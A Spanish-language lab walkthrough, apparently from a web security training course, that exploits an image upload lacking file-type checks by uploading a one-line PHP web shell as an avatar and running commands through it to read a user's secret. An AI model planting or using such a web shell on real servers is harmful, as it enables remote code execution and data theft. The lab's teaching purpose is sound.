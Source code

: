 En esta clase trabajamos con una funcionalidad vulnerable de subida de imágenes que no realiza ninguna validación sobre el tipo de archivo recibido. Aprovechamos esta debilidad para subir una shell web en PHP, simulando una imagen, y posteriormente accedemos a ella desde el navegador para ejecutar código en el servidor.

Esta técnica nos permite leer el contenido de archivos sensibles, en este caso extrayendo el secreto del usuario Carlos. Aprenderás a identificar el punto de entrada, crear el payload y validar que se ejecuta correctamente desde el navegador o Burp Suite.

Solucion
La web:
![Pasted_image_20250830195408.png](/Imagenes/Pasted_image_20250830195408.png)
Nos logeamos y vemos que podemos subir un avatar
![Pasted_image_20250830195448.png](/Imagenes/Pasted_image_20250830195448.png)
y bueno podemos crear un payload sencillo para ver si nos permite tener manejo del servidor
cmd.php
(<?php
    system($_GET['cmd']); 
?>)
![Pasted_image_20250830200105.png](/Imagenes/Pasted_image_20250830200105.png)
lo cargamos
![Pasted_image_20250830200129.png](/Imagenes/Pasted_image_20250830200129.png)
nos sale esto
![Pasted_image_20250830200204.png](/Imagenes/Pasted_image_20250830200204.png)
si nosotros le picamos y inspeccionamos la imagen nos dara la ruta donde se almacena
![Pasted_image_20250830200307.png](/Imagenes/Pasted_image_20250830200307.png)
si nos vamos a esa direccion no vamos a ver nada
![Pasted_image_20250830200421.png](/Imagenes/Pasted_image_20250830200421.png)
tal que si ahora le concatenamos ?cmd=whoami
![Pasted_image_20250830200503.png](/Imagenes/Pasted_image_20250830200503.png)
y ya solo ponemos la ruta que nos piden
![Pasted_image_20250830200749.png](/Imagenes/Pasted_image_20250830200749.png)
ya solo proporcionamo el codigo en la pagina
![Pasted_image_20250830200919.png](/Imagenes/Pasted_image_20250830200919.png)
